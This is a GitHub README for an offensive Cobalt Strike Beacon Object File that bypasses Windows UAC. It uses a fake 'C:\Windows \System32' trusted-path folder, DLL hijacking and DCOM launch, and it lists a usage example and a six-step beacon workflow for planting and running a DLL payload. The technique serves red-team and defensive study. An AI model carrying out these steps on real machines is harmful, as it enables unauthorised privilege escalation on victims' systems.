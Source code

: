 # BOF - Trusted Path UAC Bypass
Beacon object file implementation for trusted path UAC bypass. The target executable will be called without involving "cmd.exe" by using DCOM object.

Technical details:

https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

**Usage**

`Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputils.dll`

**Compile**

`make`

**Execution**
```
beacon> help bof-trustedpath-uacbypass
====================Trusted Path UAC Bypass BOF Workflow=======================
Step 1: Upload the DLL payload to "C:\Windows\Tasks"
Step 2: Create a new folder called "C:\Windows \System32"
Step 3: Copy desired executable to "C:\Windows \System32"
Step 4: Copy the DLL payload to "C:\Windows \System32"
Step 5: Use DCOM to execute "C:\Windows \System32\<desired executable>"
Step 6: Delete the DLL payload on "C:\Windows\Tasks"
================================================================================

Example: bof-trustedpath-uacbypass ComputerFaults.exe /root/edputils.dll
```

![HowTo](https://github.com/netero1010/TrustedPath-UACBypass-BOF/raw/main/execution.png)

**Credit**

 @Wietze for excellent research by
https://www.wietzebeukema.nl/blog/hijacking-dlls-in-windows

@Yas_o_h for the awesome DCOM BOF implementation
